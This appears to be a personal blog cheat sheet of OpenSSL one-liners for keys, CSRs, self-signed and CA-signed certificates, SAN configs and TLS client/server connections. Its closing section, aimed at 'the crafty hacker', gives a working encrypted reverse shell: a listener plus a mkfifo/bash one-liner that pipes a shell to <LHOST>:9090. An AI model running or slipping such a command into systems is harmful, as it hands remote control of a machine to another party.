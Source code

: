 ```yaml
---
title: "Openssl"
date: 2021-01-27T17:06:41-05:00
draft: false
---
```


OpenSSL is one of those applications that I use so often, but *rarely* do I ever recall what I'm supposed to do from memory. I'm always looking it up or eventually copying down some of the more frequent uses I have with it in my OneNote document. So here it is on my site, some quick one-off commands with OpenSSL.

# Generate a Server Key

To generate a server key (used in AES/RSA), use the following commands, and keep this key secure!

```bash
openssl genrsa -out mykey.key 2048
```

I've heard that while a 4096-bit key is significantly more secure, it is also more CPU intensive to decrypt, so while dealing with TLS certificates the general consensus is to use 2048 since it is "good enough" to the point where computational power these days can't feasibly brute force the key in a reasonable amount of time, and it doesn't slow down the connection time for the client like 4096-bits would. But still, YMMV.

Now keep it secure:

```bash
chmod 600 mykey.key
```

# Generate a Certificate Sign Request

To get an official certificate, you need to generate a CSR which is to be signed by the trusted third party. Usually you pay a company to do this. You can do it yourself, but you're basically telling everyone that you're super trustworthy and no one should ever doubt you. And come on, you remember that time in Tijuana, don't you? We do.

```bash
openssl req -new -key mykey.key -out mycert.csr
```

You'll then be prompted for a bunch of metadata about the certificate. Make sure you don't put anything too damning in the file and you'll be alright. You should also use a challenge password as well I guess, but that's up to you.

# Self-signing a CSR without a pre-existing key

You should never do this in any sort of production environment. It trains users to accept fraudulent certificates generated by just about anybody, but sometimes you need to have some sort of cert there so *at least data isn't transmitted in the clear*, so here's how to sign a CSR. **NOTE**: This creates the key AND the signed certificate.

```bash
openssl req -newkey rsa:2048 -nodes -keyout mydomain.key -x509 -days 365 -out mydomain.crt
```
This will prompt you for all the metadata about the certificate as mentioned in generating a CSR.

# Self-signing a CSR WITH a pre-existing key

To do the above with a key that you've already generated, use the following command:

```bash
openssl req -key mykey.key -new -x509 -days 365 -out mycert.crt
```

# Sign a Certificate Sign Request with a global CA key

If you have the global CA key and want to legitimately sign a CSR, you can use this command:

```bash
openssl x509 -req -in mycert.csr -CA ca.cert.pem -CAkey ca.key.pem -CAcreateserial -out mycert.crt -days 365 -sha512
```

# View the metadata of a Certificate or CSR

You can view the metadata of a certificate or CSR (such as the expiration date of the certificate or anything else about it) with the following:

```bash
openssl x509 -in mycert.crt -noout -text
```

# Create a CSR with Subject Altnernate Names

This requires a little more work, and hopefully there's a better one-liner way to do it, but until I found that out, the first thing you should do is create a file called `san.cnf`:

```ini
[req]
distinguished_name = req_distinguished_name
req_extensions = v3_req
prompt = no
[req_distinguished_name]
C = US
ST = California
L = Sacremento
O = Widgets, Inc
OU = Accounting
CN = widgets.example.com
[v3_req]
keyUsage = keyEncipherment, dataEncipherment
extendedKeyUsage = serverAuth
subjectAltName = @alt_names
[alt_names]
DNS.1 = morewidgets.example.com
DNS.2 = evenmorewidgets.example.com
DNS.3 = toomanywidgets.example.com
```

Obviously fill out the above with more appropriate data to your needs, then run the following to generate both the private key and the CSR file:

```bash
openssl req -out widgets.csr -newkey rsa:2048 -nodes -keyout private.key -config san.cnf
```

Don't forget to `chmod 600 private.key` afterwards!

---

# Connect to TLS-encrypted Service

Is a service listening on some port that's encrypted but you want to send raw data to it? You can use OpenSSL's client application to connect to it as you would using netcat or telnet, only it handles the encryption overhead so you can communicate with the server on a raw level!

```bash
openssl s_client -connect <RHOST>:<RPORT>
```

Upon connecting, you should see the TLS overhead of the handshake stuff until ultimately the connection is finally made. You can suppress that with the `-quiet` flag.

# Create TLS-encrypted listener

Similarly, you can start a listener that is encrypted using openssl as well:

```bash
openssl s_server -key mykey.key -cert mycert.crt -port 9090
```
You can add the `-quiet` flag here as well.

# OpenSSL-based reverse shell

For the crafty hacker, you can encrypt the shell across the wire using openssl as well.

1. First, generate the key on your local box:
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
# hit enter for default until key is generated
```

2. Then, start the listener:
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 9090
```

3. Now on the remote server, execute the following:
```bash
mkfifo /tmp/a; /bin/bash -I 2>&1 </tmp/a | openssl s_client -quiet -connect <LHOST>:9090 >/tmp/a;rm /tmp/a
```

OpenSSL is really handy to know!